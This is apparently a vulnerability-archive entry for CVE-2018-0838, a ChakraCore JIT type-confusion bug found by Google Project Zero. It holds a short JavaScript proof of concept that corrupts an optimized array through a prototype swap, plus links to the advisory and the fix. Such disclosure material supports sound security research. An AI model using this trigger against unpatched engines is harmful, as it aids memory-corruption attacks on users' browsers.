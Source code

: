 # CVE-2018-0838

- Fix: Feb 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function inlinee() {

}

function opt(arr) {
    arr[0] = 1.1;
    new inlinee();
    arr[0] = 2.3023e-320;
}

function main() {
    let arr = [1.1];
    for (let i = 0; i < 10000; i++) {
        inlinee.prototype = {};
        opt(arr);
    }

    inlinee.prototype = arr;
    opt(arr);

    print(arr);
}
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0838)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1463)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/f82e7b4e561494a9ad79f2fe5c5aadcdf6ccce33)